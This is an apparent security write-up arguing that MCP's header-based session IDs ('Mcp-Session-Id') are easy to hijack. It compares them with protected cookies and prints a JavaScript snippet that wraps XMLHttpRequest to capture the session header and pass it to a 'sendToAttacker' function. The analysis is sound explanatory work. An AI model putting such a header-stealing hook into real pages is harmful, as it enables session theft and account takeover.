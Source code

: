 # Security Analysis: MCP Session Hijacking via HTTP Headers

## Overview
The MCP specification's session handling via HTTP headers demonstrates a fundamental misunderstanding of web security principles that OWASP has warned about for decades. This creates trivial session hijacking opportunities.

## The Flawed Design

```
MCP Session "Security":
1. Server generates session ID on init
2. Returns in HTTP header: Mcp-Session-Id: abc123
3. Client includes header in requests: Mcp-Session-Id: abc123

What could possibly go wrong? 🤦
```

## Why This Design is Fundamentally Broken

### 1. Headers Are Not Cookies
```
HTTP Cookies (Secure):
- HttpOnly flag prevents JavaScript access
- Secure flag requires HTTPS
- SameSite prevents CSRF
- Built-in browser protections

MCP Headers (Insecure):
- Fully accessible to JavaScript
- No browser security features
- Must be manually managed
- Zero framework protections
```

### 2. Trivial Session Theft
```javascript
// Any JavaScript on the page can steal sessions
const stealSession = () => {
    // Intercept all XHR requests
    const originalXHR = window.XMLHttpRequest;
    window.XMLHttpRequest = function() {
        const xhr = new originalXHR();
        const originalSetRequestHeader = xhr.setRequestHeader;
        
        xhr.setRequestHeader = function(header, value) {
            if (header === 'Mcp-Session-Id') {
                // Stolen session ID!
                sendToAttacker(value);
            }
            originalSetRequestHeader.apply(this, arguments);
        };
        return xhr;
    };
};
```
